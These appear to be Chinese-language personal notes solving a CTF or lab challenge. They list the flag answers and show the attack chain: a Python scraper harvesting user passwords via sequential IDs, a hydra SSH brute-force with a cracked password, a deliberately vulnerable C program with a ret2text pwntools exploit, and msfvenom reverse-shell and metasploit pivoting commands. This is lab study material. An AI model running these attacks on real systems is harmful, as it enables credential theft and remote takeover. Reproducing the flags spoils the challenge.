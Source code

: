 
root 2024@.Skills

网卡配置[Ubuntu设置静态IP地址的几种方法\_ubuntu配置静态ip地址-CSDN博客](https://blog.csdn.net/fun_tion/article/details/126750615)

flag1{577baa20-f0a4-487e-a172-e6bc91e4b392}  /index.html

flag2{44a80690-be6f-435e-801e-b9e5ffaf231f}   /404.html

flag3{7972fddb-1eb4-41a7-9d8c-ca757e32dbcc}  /网站用户密码 flag@qq.com

flag4{892fa036-867c-409a-af48-6601229ebc0c}  /home/mike

flag5{075ae034-1d2d-4708-a42d-0c4d1ce61b4c} /flag       root用户可读

flag6{f8fb0360-ff9f-48ba-8d05-76445968bf59}

flag7{32ba92db-cbe6-457f-843c-e476053964ca}

flag{94eda7bc-b4cf-4679-aafd-628a9cfbd563} /systemview
# 写爬虫爬取所有用户密码
```python
import os 
import re
from datetime import datetime
import requests
import urllib3
from colorama import init
init(autoreset = True)

def write1(user_match):
	curr_dir = os.getcwd()
	vuln_file = '/user_' + datetime.now().date().strftime('%Y%m%d')+'.txt'
	f = open(curr_dir + vuln_file,'a+',encoding='utf-8')
	f.write(f"{user_match}"+"\n")
	f.close()
	
def write2(pass_match):
	curr_dir = os.getcwd()
	vuln_file = '/pass_' + datetime.now().date().strftime('%Y%m%d')+'.txt'
	f = open(curr_dir + vuln_file,'a+',encoding='utf-8')
	f.write(f"{pass_match}"+"\n")
	f.close()	

def poc_url(id):
	urllib3.disable_warnings()
	url1 = f"http://192.168.44.133/customer/user.php?id={id}"
	proxy = {
		'http':'http://127.0.0.1:8080',
		'https':'http://127.0.0.1:8080'
	}
	headers = {
		"User-Agent":"Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
		"Cookie":"PHPSESSID=dv5jvd9q7d5e6tk0itdfj5f96d"
	}
	res = requests.get(url1,headers=headers,proxies=None,verify=False,timeout=5)
	if res.status_code == 200:
		user_match = re.search(r'<input type="text" id="name" name="name" value="([^"]+)" required>',res.text).group(1).lower().split()[0]
		pass_match = re.search(r'<input type="password" id="oldpassword" name="oldpassword" value="([^"]+)" required>',res.text).group(1)
		
	write1(user_match)
	write2(pass_match)

if __name__ == '__main__':
	for i in range(1,30):
		poc_url(i)




# python写程序遇到了这个问题,vim打开时最后一个字符都是^M，导致输出的文本不可读出内容，只能用文本编辑器打开。file多了个with CR line terminators，转换成unix也不能解决，最后把换行符号换成"\n"才解决！

```

# 爆破SSH
```C
hydra -L user_20240416.txt -P pass_20240416.txt -t 16 ssh://192.168.44.133 

[22][ssh] host: 10.0.2.15   login: mike   password: 6G3UCx6aH6UYvJ6m

```

# 提权题目：
```c
#include <stdio.h>
void init(){
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);
}
void vuln(){
    char buf[8];
    puts(">>");
    read(0, buf, 0x100);
}
void backdoor(){
    system("/bin/sh");
}
int main(){
    init();
    vuln();
    return 0;
}

// gcc ret2text1.c -o ret2text1 -fno-stack-protector -no-pie

// gcc ret2text1.c -o ret2text1 -fno-stack-protector -no-pie -m32
```


```python
from pwn import *
#context(os='linux',arch='i386',log_level='debug')
p=process('./ret2text1_32')
elf = ELF('./ret2text1_32')
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
bin_sh=0x8048643
bin_sh_chuancan=0x8048585
offset=20
payload=b"a"*offset + p32(bin_sh_chuancan)
p.sendline(payload)
p.interactive()

```


msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=攻击机ip LPORT=8000 -f elf > shell_8000.elf
反弹shell
攻击机运行msfconsole，使用exploit/multi/handler模块，set payload linux/x86/meterpreter/reverse_tcp跟生成木马时用的payload一样。LPORT设置成木马将要连接的端口，运行后会在攻击机上监听一个端口，等待木马链接。

run post/multi/manage/autoroute
run autoroute -p

auxiliary/server/socks_proxy-------------------------set SRVHOST  192.168.18.242